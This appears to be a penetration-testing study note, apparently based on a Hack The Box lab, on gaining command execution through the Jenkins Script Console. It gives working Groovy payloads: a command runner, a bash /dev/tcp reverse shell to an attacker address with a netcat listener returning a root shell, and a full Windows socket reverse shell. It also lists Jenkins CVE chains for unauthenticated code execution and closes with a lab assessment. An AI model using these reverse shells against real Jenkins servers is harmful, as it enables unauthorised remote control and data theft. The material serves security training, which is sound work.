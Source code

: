 ```yaml
---
description: >-
  a quick way of achieving command execution on the underlying server is via the
  Script Console
---
```


# Attacking Jenkins

**Script Console** -> allows us to run arbitrary Groovy scripts within the Jenkins controller runtime.

we can abuse it to run operating system commands on the underlying server

### Script Console

* URL `http://jenkins.inlanefreight.local:8000/script`
* &#x20;This console allows a user to run Apache [Groovy](https://en.wikipedia.org/wiki/Apache\_Groovy) scripts
  * object-oriented Java-compatible language similar to Python and Ruby
* Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed
* it is possible to run arbitrary commands, functioning similarly to a web shell

**Groovy script**

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

<figure><img src="https://academy.hackthebox.com/storage/modules/113/groovy_web.png" alt=""><figcaption><p>http://jenkins.inlanefreight.local:8000/script</p></figcaption></figure>

**Groovy reverse shell**

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

```shell-session
nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 57844

id

uid=0(root) gid=0(root) groups=0(root)

/bin/bash -i

root@app02:/var/lib/jenkins3#
```

* we could attempt to add a user and connect to the host via RDP or WinRM

**commands for a Windows-based Jenkins**

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

We could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host

**Groovy Windows reverse shell**

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Miscellaneous Vulnerabilities

* recent exploit combines two vulnerabilities, CVE-2018-1999002 and [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266) to achieve pre-authenticated remote code execution
* Public exploit PoCs exist to exploit a flaw in Jenkins dynamic routing to bypass the Overall / Read ACL and use Groovy to download and execute a malicious JAR file
* Another vulnerability exists in Jenkins 2.150.2, which allows users with JOB creation and BUILD privileges to execute code on the system via Node.js
  * This requires authentication, but if anonymous users are enabled, the exploit will succeed because these users have JOB creation and BUILD privileges by default.

## Assessment

Attack the Jenkins target and gain remote code execution. Submit the contents of the flag.txt file in the /var/lib/jenkins3 directory

<figure><img src="../../../.gitbook/assets/ภาพ (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ภาพ (10).png" alt=""><figcaption></figcaption></figure>
